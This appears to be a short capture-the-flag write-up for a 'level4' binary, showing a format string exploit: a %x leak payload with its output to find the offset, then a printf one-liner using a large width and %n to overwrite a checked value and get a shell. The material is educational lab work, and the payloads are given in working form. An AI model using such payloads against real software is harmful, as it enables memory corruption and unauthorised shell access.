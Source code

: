 # Write up

After dissassembling the `level4` binary, we notice an unsecure printf call and a condition to activate a shell again.
But this time, it's harder since the checked value is very high, we can't print 16930116 (1025544 in hex) chars since it will be cutted to 512 by the fgets call.

Same routine, we try a placeholder payload : 
```
AAAA.%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA.b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 2078252e 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```
Which gives us a vulnerable parameter at the 12th position.

However, this payload :
```
printf "%b%16930052s%s" "\x10\x98\x04\x08" "" "%x%x%x%x%x%x%x%x%x%x%x%n" | ./level4
```
Doesn't work because of the size.
But we can bypass the buff size limitation by putting the filling chars in the min width parameter instead of raw in the format :
```
(printf "%b%s" "\x10\x98\x04\x08" "%16930052d%x%x%x%x%x%x%x%x%x%x%n"; cat) | ./level4
```
Which gives us directly our flag.

## Sources

https://cs155.stanford.edu/papers/formatstring-1.2.pdf